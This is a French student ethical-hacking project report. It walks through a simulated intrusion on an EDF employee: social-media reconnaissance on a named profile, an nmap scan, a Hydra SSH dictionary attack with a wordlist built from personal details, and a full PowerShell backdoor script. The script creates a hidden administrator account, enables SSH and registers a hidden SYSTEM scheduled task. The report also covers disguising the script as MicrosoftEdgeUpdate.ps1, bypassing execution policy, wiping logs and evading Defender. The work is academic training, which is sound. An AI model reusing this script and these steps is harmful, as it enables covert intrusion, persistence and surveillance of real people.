# Projet Ethical Hacking - LE SAOUT Milo - TRAN Nathan - FENOGLI Adrien
---

---

## ⚠️ Avertissement : Usage exclusivement académique

Ce document est un **projet académique** réalisé dans le cadre d'un cursus d'apprentissage de la cybersécurité et de l'éthique en hacking. Il a pour but de sensibiliser aux techniques et outils utilisés dans le cadre de la **sécurité informatique** et du **hacking éthique**, et il doit être utilisé uniquement dans un cadre **autorisé et légal**.

Il est **strictement interdit d'utiliser les techniques et informations contenues dans ce document à des fins non autorisées**, y compris l'accès à des systèmes sans le consentement explicite de leur propriétaire. Toute intrusion non consentie constitue une infraction aux lois en vigueur et expose son auteur à des **sanctions pénales** graves.

### Avertissement de responsabilité  
L’équipe de rédaction décline toute responsabilité en cas d'utilisation abusive ou illégale des informations contenues dans ce document. Toute personne qui enfreindrait la loi en appliquant ces techniques sans autorisation s’expose aux **poursuites judiciaires** et aux **conséquences pénales**. Ce document ne doit en aucun cas être interprété comme une incitation à la pratique de toute activité illégale.

---


## Phase 1 : Reconnaissance - Recueillir des informations sur l’entreprise, ses serveurs, ses employés, et son réseau.

### Passive Reconnaissance : Analyse de sources publiques comme les moteurs de recherche, les réseaux sociaux, les bases de données, etc.

L’entreprise choisie est EDF. En cherchant un peu sur LinkedIn, on tombe sur un profile intéressant :

https://www.linkedin.com/in/jean-jean-a11489334/



Ce profile est intéressant pour plusieurs raisons :

- Jean JEAN est assez âgé
- Il est au même poste depuis longtemps

Ces deux caractères maximisent les chances pour que son poste de travail ne soit pas à jour et qu’il y est donc une ou plusieurs vulnérabilités.

En cherchent Jean JEAN EDF sur Facebook on arrive à trouver son profile :

https://www.facebook.com/profile.php?id=61567259255621&sk=about_places&locale=fr_FR

Jean suit la page Facebook d’un bar et a une photo de l’arc de triomphe, cela permet d’identifier son lieu de travail et un lieu qu’il fréquente régulièrement.


On trouve sur sa page Facebook qu’il est récemment parti en voyage.


En cherchant « Manta Queen 2 », on retrouve le site.


Grâce à la date de naissance de son profil, on retrouve son compte Instagram :

https://www.instagram.com/jeanjean280268/



Ici on apprend qu’il a bien fait le voyage et qu’il en est revenu depuis peu.

### Active Reconnaissance : Utilisation d’outils comme nmap pour interagir directement avec la cible.

Pour trouver l’adresse IP de la cible, on va se rendre après les heures de travail à beer station pour scanner les wifi et retrouver l'IP de la machine de Jean.

## Phase 2 : Scanning et Énumération - Identifier les ports ouverts, les services actifs, et les utilisateurs potentiels sur le réseau.

Une fois l’adresse IP trouvée, on lance un nmap sur sa machine pour en connaître les caractéristiques.

Adobe Acrobat Reader DC 15.006.30121

Cette version est vulnérable à une faille RCE permettant l'exécution de code malveillant via des fichiers PDF.

## Phase 3 : Gaining Access - Exploiter les vulnérabilités découvertes pour accéder à un serveur ou à un système interne.

On exploite cette vulnérabilité en lui faisant ouvrir un PDF malveillant grâce à un mail de Spears phishing sur le voyage qu’il a fait.



Comme dit durant l’oral, nous n'avons pas réussi à recréer l’environnement à attaquer, mais en théorie, le PDF malveillant permet de créer une backdoor (maintaining access) et s'autodétruit (covering trace).

## ALTERNATIVE (avec partie technique fonctionnelle)

### Phase 2 : Scanning et Énumération - Identifier les ports ouverts, les services actifs, et les utilisateurs potentiels sur le réseau.

En faisant suite à la phase 1 de la première partie, on peut donc supposer que nous sommes dans le même réseau que notre cible.

En utilisant l’utilitaire nbtscan, on obtient donc l’adresse de notre machine cible.



En faisant un scan nmap avec la commande `nmap -v –sV 192.168.195.133`, on va lister les services et les ports ouverts. On peut remarquer que le port SSH (22) est ouvert, nous allons donc utiliser ce dernier à notre avantage.



### Phase 3 : Gaining Access - Exploiter les vulnérabilités découvertes pour accéder à un serveur ou à un système interne.

Maintenant que nous savons que le service SSH est activé, notre idée est de réaliser une attaque par dictionnaire en se servant des informations disponibles sur les réseaux sociaux de notre cible.

L’idée était de trouver et d’utiliser un programme permettant de créer des wordlists sur la base de mots clés. En naviguant un peu sur le site hacktricks.xyz, nous sommes tombés sur le programme Python Wister qui remplissait toutes nos attentes pour cette attaque. L’outil Crunch et Cewl auraient pu être utilisé mais Crunch crée les wordlists sur la base de caractères autorisés, ce qui aurait été plus compliqué à mettre en place. Et Cewl a l’avantage de scraper le contenu des sites web pour créer ses wordlists, mais de nos jours, les sites n’affichent pas le contenu des comptes si nous ne sommes pas connectés avec un compte.

Nous avons donc utilisé la commande `wister -w Jean jean jean68 68 27 28 20 . jeanjean gmail edf -c 1 2 -o userpasslistdemo.lst` pour créer notre dictionnaire de mots de passe où l’option `-w` permet de mettre des mots clés, `-c` correspond au nombre de combinaisons et `–o` correspond au fichier de sortie.



Nous avons désormais deux choix : soit nous utilisons directement l’utilitaire Hydra pour réaliser notre attaque par dictionnaire, soit nous passons par le framework Metasploit pour chercher un script permettant de vérifier les combinaisons d’utilisateurs et de mots de passes qui réussissent.

Dans notre cas, nous allons utiliser la méthode un peu plus traditionnelle avec Hydra. Nous allons donc utiliser la commande `hydra -L /home/endo/userpasslist.lst -P /home/endo/userpasslist.lst -t 4 -V ssh://192.168.195.133`. Cette commande va utiliser le contenu du fichier `userpasslist.lst` comme utilisateurs et mots de passe pour effectuer l’attaque par dictionnaire sur le service SSH (avec 4 processus parallèles).



On peut donc remarquer que le login est JeanJean et le mot de passe est jean.jean68.

Nous pouvons réaliser une première connexion initiale sur notre machine attaquante.



En essayant la commande `ls`, nous pouvons voir que la commande n’est pas reconnue. Tandis que la commande `dir` fonctionne. Cela montre que nous sommes actuellement sous un interpréteur de commande en Batch et non en PowerShell. Nous pouvons toutefois lancer un terminal en PowerShell en allant dans le répertoire `C:\Windows\System32\WindowsPowershell\v1.0\` et en lançant l’exécutable `powershell.exe`.



## Phase 4 : Maintaining Access - Installer un accès persistant sur le système compromis pour y revenir plus tard.

Pour maintenir l’accès et être plus discret, nous allons utiliser le script PowerShell suivant :

```powershell
# Ensure running with administrative privileges
$isAdmin = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)

if (-not $isAdmin) {
    Write-Host "This script requires administrative privileges."
    exit
}

# Configuration
$serviceName = "WindowsSystemManager"
$serviceDisplayName = "Windows System Manager"
$serviceDescription = "Manages system resources and performance"
$logPath = "C:\Windows\Temp\system_logs.txt"
$username = "Jean"
$password = "Jean1234"

# Function to manage the system user
function Manage-SystemUser {
    try {
        $user = Get-LocalUser -Name $username -ErrorAction SilentlyContinue
        if (-not $user) {
            $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
            New-LocalUser -Name $username -Password $securePassword -Description "System Management Account" -PasswordNeverExpires
            $adminGroup = Get-LocalGroup -SID "S-1-5-32-544"
            Add-LocalGroupMember -Group $adminGroup -Member $username
            $regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"
            if (-not (Test-Path $regPath)) {
                New-Item -Path $regPath -Force | Out-Null
            }
            New-ItemProperty -Path $regPath -Name $username -Value 0 -PropertyType DWord -Force
            Write-Host "System user configured successfully"
        }
    }
    catch {
        Write-Host "Error managing system user: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error managing system user: $_"
    }
}

# Create a function to set up the SSH service
function Configure-SSHService {
    try {
        $sshService = Get-Service -Name 'sshd' -ErrorAction SilentlyContinue
        if (-not $sshService) {
            Add-WindowsCapability -Online -Name OpenSSH.Server*
        }
        Start-Service sshd
        Set-Service -Name sshd -StartupType 'Automatic'
        $sshConfigPath = "$env:ProgramData\ssh\sshd_config"
        $config = Get-Content $sshConfigPath
        $config = $config -replace '#PubkeyAuthentication yes', 'PubkeyAuthentication yes'
        $config = $config -replace '#PasswordAuthentication yes', 'PasswordAuthentication yes'
        $config | Set-Content $sshConfigPath
        Restart-Service sshd
        Write-Host "SSH service configured successfully"
    }
    catch {
        Write-Host "Error configuring SSH service: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error configuring SSH: $_"
    }
}

# Create a function to establish persistence
function Set-SystemPersistence {
    try {
        $action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument "-WindowStyle Hidden -ExecutionPolicy Bypass -File `"$PSCommandPath`""
        $trigger = New-ScheduledTaskTrigger -AtStartup
        $principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden
        Register-ScheduledTask -TaskName $serviceName -Action $action -Trigger $trigger -Principal $principal -Settings $settings -Description $serviceDescription -Force
        Write-Host "Persistence mechanism established successfully"
    }
    catch {
        Write-Host "Error setting up persistence: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error setting persistence: $_"
    }
}

# Main execution
try {
    Manage-SystemUser
    Configure-SSHService
    Set-SystemPersistence
    Write-Host "Setup completed successfully"
}
catch {
    Write-Host "Error during setup: $_"
    Add-Content -Path $logPath -Value "$(Get-Date) - Critical error during setup: $_"
}
```

Ce script va permettre de créer un second utilisateur avec les privilèges administrateurs et un login et un mot de passe préalablement choisi (Dans notre cas, Jean et Jean1234). On peut constater qu’un problème se montre clairement dans la plupart des systèmes Windows ; Pour notre attaque, nous n’avons pas besoin de réaliser de privesc (Privilege escalation) car notre cible et comme beaucoup d’autre utilisent leur compte utilisateur avec des privilèges administrateurs, ce qui pose un énorme problème de sécurité. Et pour des raisons de discrétion, nous avons choisi de créer un autre utilisateur plus discret et avec les privilèges administrateur.

Pour le transférer, nous allons utiliser l’utilitaire de transfert scp car celui-ci fonctionne via le protocole ssh.
Nous faisons donc la commande suivante : “scp MicrosoftEdgeUpdate.ps1 JeanJean@192.168.195.133:"C:\Windows\System32\MicrosoftEdgeUpdate.ps1"
Et celle-ci va placer notre script dans le répertoire System32 sous le nom MicrosoftEdgeUpdate.ps1 pour ne pas éveiller les soupçons, de plus que le répertoire System32 contient un grand nombre de fichier est d’exécutables ce qui rendra notre script plus difficile à localiser.





Pour pouvoir exécuter le script, il nous faut d’abord désactiver les restrictions sur l’execution des scripts dans notre interpréteur, on peut donc faire la commande “Set-ExecutionPolicy unrestricted” puis .\MicrosoftEdgeUpdate.ps1



Notre utilisateur a été créer et le script s’exécute périodiquement dans le cas où l’utilisateur n’existe plus à un moment où à un autre.

On peut désormais se connecter sur notre compte discret :





Un problème reste quand même présent, nous partons du principe que nous sommes au même endroit et dans le même réseau mais cela ne sera pas tout le temps le cas et en dehors du réseau, maintenir l’accès en ssh ne sera pas possible. Nous avons dans ce cas deux options : soit nous trouvons un moyen d’ouvrir les ports de la machine via le Fournisseur d’Accès Internet, ou bien, imaginons une sorte de mini programme ayant la même fonctionnalité que Tailscale mais plus discrète (sans icones de notification, interfaces graphique, etc...) pour créer un mini sous-réseau permettant de relier la machine cible de la machine attaquante, peu importe la distance. Cela permettrait de réellement mettre en place la Phase 4 : Maintaining access, malheureusement, réaliser un programme avec ces fonctionnalités est long et nous n’avons pas eu le temps de le réaliser. Peut-être que nous verrons un jour cela dans Kali Linux, qui sait...

## Phase 5 : Covering Tracks - Effacer les traces de l’intrusion pour éviter la détection par les administrateurs système.

**Effacement des logs** : Supprimer ou modifier les journaux d’évènements.  
**Modification des timestamps** : Changer les dates de création ou de modification des fichiers.

Pour finir, nous devons lorsque nous quittons la session, effacer les logs pour éviter d’être retracé. Il y a notamment les logs ssh situé dans `C:\ProgramData\ssh\logs\` par exemple.
Par ailleurs, comme le script ne possède pas de signature déjà présente dans les bases de données de Windows Defender, il ne détecte donc pas celui-ci comme une menace.
